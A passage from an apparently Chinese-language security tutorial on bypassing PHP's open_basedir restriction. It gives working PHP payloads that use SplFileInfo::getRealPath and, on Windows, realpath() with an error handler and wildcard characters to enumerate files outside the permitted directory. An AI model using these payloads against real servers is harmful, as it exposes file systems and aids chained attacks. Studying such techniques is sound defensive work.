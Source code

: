 可以看到，和前面几种方法相比，实在是相形见绌，只能应用于判断目标文件是否存在，有利于后续和其他漏洞进行组合利用。

## 0x07 利用SplFileInfo::getRealPath()类方法Bypass

### SplFileInfo类

(PHP 5 >= 5.1.2, PHP 7)

SplFileInfo类为单个文件的信息提供高级面向对象的接口。

**SplFileInfo::getRealPath**

(PHP 5 >= 5.2.2, PHP 7)

SplFileInfo::getRealPath类方法是用于获取文件的绝对路径。

### Bypass

和bindtextdomain的原理一样，是基于报错的方式，返回结果都是一样的，就不再多演示，这里直接给出payload：

```php+HTML
<?php
echo '<b>open_basedir: ' . ini_get('open_basedir') . '</b><br />';
$info = new SplFileInfo($_GET['dir']);
var_dump($info->getRealPath());
?>
```

## 0x08 利用realpath()函数Bypass

### realpath()函数

(PHP 4, PHP 5, PHP 7)

realpath — 返回规范化的绝对路径名。它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。

函数定义如下：

```
realpath ( string $path ) : string
```

### Bypass

环境条件：**Windows**

基本原理是基于报错返回内容的不用，设置自定义的错误处理函数，循环遍历匹配到正则的报错信息的字符来逐个拼接成存在的文件名，另外是需要结合利用Windows下的两个特殊的通配符<和>，不然只能进行暴破。

payload：

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />",ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'E:/wamp64/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {        
    $file = $dir . $chars[$i] . '<><';        
    realpath($file);
}
function isexists($errno, $errstr){        
    $regexp = '/File\((.*)\) is not within/';        preg_match($regexp, $errstr, $matches);        
    if (isset($matches[1])) {                
        printf("%s <br/>", $matches[1]);        
    }
}
```